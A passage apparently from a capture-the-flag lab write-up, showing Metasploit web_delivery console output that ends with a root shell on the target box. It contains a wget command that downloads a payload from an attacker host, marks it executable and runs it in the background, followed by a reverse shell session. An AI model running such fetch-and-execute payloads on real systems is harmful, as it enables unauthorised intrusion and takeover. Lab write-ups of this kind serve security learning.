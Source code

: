 Metasploit:
```bash
[*] Run the following command on the target machine:
wget -qO kKqgpCZC --no-check-certificate http://10.10.14.50:8080/DHmVwiq; chmod +x kKqgpCZC; ./kKqgpCZC& disown
[*] 10.129.76.145    web_delivery - Delivering Payload (250 bytes)
[*] 10.129.76.146    web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (38 bytes) to 10.129.76.146
[*] Command shell session 3 opened (10.10.14.50:4444 -> 10.129.76.146:34428) at 2024-06-18 18:33:50 +0200

msf6 exploit(multi/script/web_delivery) > sessions

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  3         shell x64/linux               10.10.14.50:4444 -> 10.129.76.146:34428 (
                                          10.129.76.146)

msf6 exploit(multi/script/web_delivery) > sessions -i 3
[*] Starting interaction with 3...

id
uid=0(root) gid=0(root) groups=0(root)
```

We successfully rooted the box.